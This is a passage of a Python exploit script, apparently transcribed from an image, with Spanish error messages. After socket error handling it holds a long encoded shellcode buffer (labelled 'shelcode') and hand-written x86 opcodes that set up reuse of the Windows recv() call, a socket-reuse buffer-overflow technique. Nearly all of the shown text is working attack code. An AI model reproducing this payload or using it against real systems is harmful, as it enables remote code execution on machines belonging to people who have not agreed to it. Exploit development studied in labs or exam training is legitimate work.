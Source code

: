 ```python
except ConnectionRefusedError:
    print("ConexiÃ³n rechazada. Verifica que el servicio esta corriendo.")
    sys.exit(1)
except TimeoutError:
    print("Tiempo de conexiÃ³n agotado.")
    sys.exit(1)
except Exception as e:
    print(f"Error inesperado: {e}")
    sys.exit(1)

#shelcode 

buf =  b""
buf += b"\xbe\x36\xc8\x96\x97\xdd\xc7\xd9\x74\x24\xf4\x5b"
buf += b"\x2b\xc9\xb1\x52\x31\x73\x12\x83\xeb\xfc\x03\x45"
buf += b"\xc6\x74\x62\x55\x3e\xfa\x8d\xa5\xbf\x9b\x04\x40"
buf += b"\x8e\x9b\x73\x01\xa1\x2b\xf7\x47\x4e\xc7\x55\x73"
buf += b"\xc5\xa5\x71\x74\x6e\x03\xa4\xbb\x6f\x38\x94\xda"
buf += b"\xf3\x43\xc9\x3c\xcd\x8b\x1c\x3d\x0a\xf1\xed\x6f"
buf += b"\xc3\x7d\x43\x9f\x60\xcb\x58\x14\x3a\xdd\xd8\xc9"
buf += b"\x8b\xdc\xc9\x5c\x87\x86\xc9\x5f\x44\xb3\x43\x47"
buf += b"\x89\xfe\x1a\xfc\x79\x74\x9d\xd4\xb3\x75\x32\x19"
buf += b"\x7c\x84\x4a\x5e\xbb\x77\x39\x96\xbf\x0a\x3a\x6d"
buf += b"\xbd\xd0\xcf\x75\x65\x92\x68\x51\x97\x77\xee\x12"
buf += b"\x9b\x3c\x64\x7c\xb8\xc3\xa9\xf7\xc4\x48\x4c\xd7"
buf += b"\x4c\x0a\x6b\xf3\x15\xc8\x12\xa2\xf3\xbf\x2b\xb4"
buf += b"\x5b\x1f\x8e\xbf\x76\x74\xa3\xe2\x1e\xb9\x8e\x1c"
buf += b"\xdf\xd5\x99\x6f\xed\x7a\x32\xe7\x5d\xf2\x9c\xf0"
buf += b"\xa2\x29\x58\x6e\x5d\xd2\x99\xa7\x9a\x86\xc9\xdf"
buf += b"\x0b\xa7\x81\x1f\xb3\x72\x05\x4f\x1b\x2d\xe6\x3f"
buf += b"\xdb\x9d\x8e\x55\xd4\xc2\xaf\x56\x3e\x6b\x45\xad"
buf += b"\xa9\x9e\x90\xbd\x2f\xf7\xa6\xbd\x2e\xbc\x2e\x5b"
buf += b"\x5a\xd2\x66\xf4\xf3\x4b\x23\x8e\x62\x93\xf9\xeb"
buf += b"\xa5\x1f\x0e\x0c\x6b\xe8\x7b\x1e\x1c\x18\x36\x7c"
buf += b"\x8b\x27\xec\xe8\x57\xb5\x6b\xe8\x1e\xa6\x23\xbf"
buf += b"\x77\x18\x3a\x55\x6a\x03\x94\x4b\x77\xd5\xdf\xcf"
buf += b"\xac\x26\xe1\xce\x21\x12\xc5\xc0\xff\x9b\x41\xb4"
buf += b"\xaf\xcd\x1f\x62\x16\xa4\xd1\xdc\xc0\x1b\xb8\x88"
buf += b"\x95\x57\x7b\xce\x99\xbd\x0d\x2e\x2b\x68\x48\x51"
buf += b"\x84\xfc\x5c\x2a\xf8\x9c\xa3\xe1\xb8\xbd\x41\x23"
buf += b"\xb5\x55\xdc\xa6\x74\x38\xdf\x1d\xba\x45\x5c\x97"
buf += b"\x43\xb2\x7c\xd2\x46\xfe\x3a\x0f\x3b\x6f\xaf\x2f"
buf += b"\xe8\x90\xfa"

recv = b""
# int recv(
#  [in]  SOCKET s,
#  [out] char   *buf,
#  [in]  int    len,
#  [in]  int    flags
#);
# 


#[i] s
recv += b"\x54"                 #   Push ESP
recv += b"\x58"                 #   Pop AEX
recv += b"\x83\xc0\x48"         #   add EAX, 0x48
recv += b"\x8b\x30"             #   mov esi, dword [eax]

# Move ESP
recv += b"\x83\xec\x64"         #   sub esp, 0x64

```